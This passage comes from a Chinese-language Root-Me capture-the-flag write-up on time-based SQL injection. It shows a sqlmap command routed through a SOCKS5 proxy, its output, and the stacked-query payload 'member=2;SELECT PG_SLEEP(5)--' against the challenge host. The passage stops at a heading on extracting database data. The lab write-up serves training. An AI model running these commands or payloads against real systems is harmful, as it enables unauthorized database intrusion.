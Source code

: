 ```shell
[09:46:50] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B52%5D%20%5B45P%5D%20SQL%20injection%20-%20Time%20based/imgs/05.png)

目前 Rootme 还没有加 WAF ，所以这个错误不是 WAF 引起的，不需要考虑绕过。

这是因为天朝网络的缘故，虽然 Rootme 还不在墙后，但是最好还是通过科学代理加速一下，例如 [shadowsocks](https://github.com/shadowsocks) 。


sqlmap 可以通过 `--proxy` 添加科学代理，这次命令就正常执行了：

```shell
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.3.23#dev}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:47:41 /2019-03-17/

[09:47:41] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[09:47:41] [INFO] resuming back-end DBMS 'postgresql'
[09:47:41] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[09:47:42] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[09:47:42] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 09:47:42 /2019-03-17/
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B52%5D%20%5B45P%5D%20SQL%20injection%20-%20Time%20based/imgs/06.png)

------------

## 通过 sqlmap 获取数据库信息
